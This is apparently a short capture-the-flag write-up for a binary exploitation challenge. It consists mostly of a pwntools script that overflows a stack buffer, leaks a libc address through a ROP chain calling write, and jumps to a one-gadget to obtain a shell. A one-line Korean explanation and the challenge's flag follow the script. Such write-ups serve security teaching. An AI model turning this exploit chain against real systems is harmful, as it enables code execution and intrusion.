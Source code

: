 ```python
write = 0x400632

payload = 'A' * 0x88 + p64(0)
payload += 'A' * 8 + p64(pprsi) + p64(e.got['write']) + 'B' * 8
payload += p64(e.plt['write'])
payload += p64(prdi) + p64(0)
payload += p64(e.plt['read'])
payload += p64(e.plt['write'])

#gdb.attach(s,sc)
s.send(payload)

s.recvuntil('A' * 0x88)
libc = u64(s.recv(8)) - l.symbols['write']
log.info("LIBC : "+ hex(libc))

oneshot = libc + 0x4526a

pause()
s.sendline(p64(oneshot) * 0x10)

s.interactive()
```

- ex.py

사용하는 변수 bof로 \x00으로 맞춰주고 rop하면 된다.

flag : dimi{R1bb!t_r1bb!t_fr0g_1s\_$in9!ng_@_s0ng}

